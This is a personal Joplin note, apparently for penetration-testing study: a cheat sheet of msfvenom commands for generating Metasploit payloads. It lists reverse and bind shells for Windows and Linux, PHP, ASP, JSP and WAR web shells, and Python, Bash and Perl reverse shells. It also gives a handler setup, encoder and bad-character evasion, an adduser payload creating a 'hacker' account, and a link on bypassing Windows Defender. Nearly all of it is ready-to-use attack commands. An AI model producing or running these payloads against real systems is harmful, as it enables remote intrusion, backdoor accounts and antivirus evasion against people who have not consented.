 Msfvenom

## Creating a payload

- msfvenom -p \[payload\] LHOST=\[listeninghost\] LPORT=\[listeningport\]

To view list of payloads:

> msfvenom -l payloads

To view the payload options:

> msfvenom -p windows/x64/meterpreter\_reverse\_tcp --list-options

To view formats to output

> msfvenom --list formats
> 
> msfvenom --list encoders

## Creating a payload with encoding

- msfvenom -p \[payload\] -e \[encoder\] -f \[formattype\] -i \[iteration\] &lt;var=value&gt; > outputfile

## Creating a payload using a template

- msfvenom -p \[payload\] &lt;var=value&gt; -x \[template\] -f \[formattype\] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe -a x86\_64
- msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe -o shell.exe
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d\\x25\\x26\\x2b\\3d"

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom:

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter\_reverse\_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.php
    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\n' &gt; shell.php && pbpaste >> shell.php</your></your>

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=!KALIIP LPORT=!PORT -f asp > shell.asp
- msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=192.168.119.168 LPORT=4445 -f aspx > shell.aspx (For 64-bit)
- msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.119.206 LPORT=5001 -f asp > shell.asp (For 32-bit)
    

JSP

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.jsp</your></your>

WAR

- msfvenom -p java/jsp\_shell\_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f war > shell.war</your></your>

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.py</your></your>

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.sh</your></your>

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.pl</your></your>

Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\\x0A\\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/

id: c5501ccb1e8d457f9a5080d28007af2e
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2019-11-27T02:15:20.390Z
updated_time: 2022-04-28T02:29:09.879Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1611575146763.25
user_created_time: 2019-11-27T02:15:20.390Z
user_updated_time: 2022-04-28T02:29:09.879Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1